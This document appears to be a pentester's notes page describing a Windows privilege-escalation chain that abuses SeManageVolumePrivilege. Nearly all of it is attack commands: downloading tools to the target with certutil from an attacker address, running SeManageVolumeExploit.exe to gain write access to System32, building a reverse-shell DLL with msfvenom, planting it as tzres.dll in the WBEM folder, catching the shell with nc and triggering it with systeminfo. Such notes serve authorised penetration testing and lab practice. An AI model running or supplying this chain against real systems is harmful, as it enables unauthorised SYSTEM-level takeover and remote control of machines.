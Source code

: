 ```yaml
---
title: SeManageVolumePrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeManageVolumePrivilege
---
```


# SeManageVolumePrivilege


Original repo at https://github.com/xct/SeManageVolumeAbuse

Forked to: https://github.com/amandaguglieri/SeManageVolumeAbuse.git


Source for explotation: https://hackfa.st/Offensive-Security/Windows-Environment/Privilege-Escalation/Token-Impersonation/SeManageVolumePrivilege/#exploit-with-wertrigger


### **Step 1: Check current user privileges**

1. Verify if the current user has `SeManageVolumePrivilege`:  

```bash
whoami /priv
```

### **Step 2: Enable SeManageVolumePrivilege (optional)**

1. Download the `EnableAllTokenPrivs.ps1` script:  

```
wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
```
        
2. Transfer the script to the target machine:  
```
certutil -urlcache -f http://[IP-ADDRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1
```

3. Import the module to enable the privilege

```
Import-Module .\EnableAllTokenPrivs.ps1`
```
    
4. Verify privileges again to confirm that `SeManageVolumePrivilege` is enabled:  
```
whoami /priv
```


### **Step 3:  DLL hijacking with Metasploit**

1. Download and transfer `SeManageVolumeExploit.exe` to the target:  

```
wget https://github.com/amandaguglieri/SeManageVolumeAbuse/releases/download/1.0/SeManageVolumeAbuse.exe
```

2. Transfer it using `certutil`:  

```
certutil -urlcache -f http://[IP-ADDRESS]:80/SeManageVolumeExploit.exe SeManageVolumeExploit.exe
```

3. Execute the exploit to gain write privileges to `C:\Windows\System32\`:

```
.\SeManageVolumeExploit.exe
```

4. Create a malicious DLL payload with `msfvenom`:  

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=1337 -f dll -o tzres.dll
```

5. Place the malicious DLL in the WBEM directory:  

```
copy tzres.dll C:\Windows\System32\wbem\
```

6. Set up a Netcat listener on the attacking machine:

```
rlwrap -cAr nc -lnvp 1337`
```    

7. Activate the payload by running:

```
systeminfo
```




